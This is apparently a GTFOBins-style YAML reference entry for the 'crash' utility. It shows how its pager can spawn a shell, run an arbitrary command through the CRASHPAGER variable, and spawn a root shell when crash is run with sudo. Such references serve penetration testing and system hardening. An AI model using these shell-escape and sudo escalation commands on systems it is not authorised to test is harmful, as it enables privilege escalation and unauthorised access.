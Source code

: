functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        crash -h
        !sh
  command:
    - code: |
        COMMAND='/usr/bin/id'
        CRASHPAGER="$COMMAND" crash -h
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo crash -h
        !sh
---
